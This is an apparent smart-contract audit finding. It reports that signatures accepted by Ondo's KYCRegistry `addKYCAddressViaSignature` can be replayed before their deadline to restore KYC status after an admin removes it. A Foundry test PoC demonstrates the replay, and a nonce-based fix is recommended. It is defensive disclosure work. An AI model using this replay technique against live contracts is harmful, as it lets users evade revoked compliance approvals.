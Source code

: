 # KYC signature can be reused to regain KYC status

The function `addKYCAddressViaSignature` of the `KYCRegistry` contract allows a user to be granted a KYC status using a signature provided by Ondo. The function validates that the signer has the corresponding role for the requirement group and adds the user to the given KYC group if successful.

While the signed digest contains a deadline, if this deadline is long enough, a user may be able to reuse the provided signature.

## Impact

The signature can be reused to add the user back to the registry within the limits of the deadline.

If the user is first KYC approved off-chain and given a signature, and is later removed from the registry by a privileged role using `removeKYCAddresses`, then the user can resubmit the signature to `addKYCAddressViaSignature` and be readded to the KYC registry.

## PoC

The following test illustrates the issue.

```solidity
contract TestAudit is BasicDeployment {
    function setUp() public {
        createDeploymentCash();

        // Grant Setter
        vm.startPrank(managerAdmin);
        cashManager.grantRole(cashManager.SETTER_ADMIN(), address(this));
        cashManager.grantRole(cashManager.SETTER_ADMIN(), managerAdmin);
        vm.stopPrank();

        // Seed address with 1000000 USDC
        vm.prank(USDC_WHALE);
        USDC.transfer(address(this), INIT_BALANCE_USDC);
    }
    
    function test_KYCRegistry_addKYCAddressViaSignature_ReuseSignature() public {
        uint256 signerPrivateKey = 0x123;
        address signer = vm.addr(signerPrivateKey);

        // Add signer KEY group role
        vm.prank(registryAdmin);
        registry.grantRole(KYC_GROUP_2_ROLE, signer);

        // Alice is not in the registry
        assertFalse(registry.getKYCStatus(kycRequirementGroup, alice));

        // // Alice is KYC off-chain and provided a signature
        uint256 deadline = block.timestamp + 30 days;
        bytes32 structHash = keccak256(abi.encode(registry._APPROVAL_TYPEHASH(), kycRequirementGroup, alice, deadline));
        bytes32 hash = ECDSA.toTypedDataHash(registry.DOMAIN_SEPARATOR(), structHash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, hash);

        vm.prank(alice);
        registry.addKYCAddressViaSignature(kycRequirementGroup, alice, deadline, v, r, s);

        // Alice is now KYC approved
        assertTrue(registry.getKYCStatus(kycRequirementGroup, alice));

        // Simulate time passes...
        vm.warp(block.timestamp + 15 days);

        // Admin removes Alice KYC status
        address[] memory addressesToRemoveKYC = new address[](1);
        addressesToRemoveKYC[0] = alice;
        vm.prank(signer);
        registry.removeKYCAddresses(kycRequirementGroup, addressesToRemoveKYC);
        assertFalse(registry.getKYCStatus(kycRequirementGroup, alice));

        // Alice reuses the signature and gets back her KYC status
        vm.prank(alice);
        registry.addKYCAddressViaSignature(kycRequirementGroup, alice, deadline, v, r, s);
        assertTrue(registry.getKYCStatus(kycRequirementGroup, alice));
    }
}
```

## Recommendation

Use a nonce for each account and include it as part of the signed message to prevent reusing the same signature more than once. When calling `addKYCAddressViaSignature`, validate that the nonce is the current nonce for the given user. If successful, consume and increment the nonce. 
